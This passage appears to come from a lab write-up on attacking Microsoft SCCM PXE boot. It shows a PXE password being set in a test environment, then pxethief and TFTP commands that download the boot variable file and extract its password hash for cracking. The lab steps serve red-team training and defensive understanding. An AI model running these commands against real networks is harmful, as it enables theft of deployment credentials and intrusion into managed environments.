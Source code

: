 - In the PXE tab select require a password and enter a password for pxe (here i enter the password : "hello")

![set_pxe_password.png](/assets/blog/SCCM/set_pxe_password.png)

- Select apply than ok
- Wait few minutes for the deployment propagation

- Now if we retry from windows we get an error as a password is detected :

```powershell
py.exe pxethief.py 2 192.168.33.11
```

![pxe_thief_with_password.png](/assets/blog/SCCM/pxe_thief_with_password.png)

- Let's download the file and print the hash with pxethief

```powershell
tftp -i 192.168.33.11 GET "\SMSTemp\2024.03.28.03.27.34.0001.{BC3AEB9D-2A6C-46FB-A13E-A5EEF11ABACD}.boot.var" "2024.03.28.03.27.34.0001.{BC3AEB9D-2A6C-46FB-A13E-A5EEF11ABACD}.boot.var"
py.exe pxethief.py 5 '.\2024.03.28.03.27.34.0001.{BC3AEB9D-2A6C-46FB-A13E-A5EEF11ABACD}.boot.var'
```

![pxe_gethash.png](/assets/blog/SCCM/pxe_gethash.png)
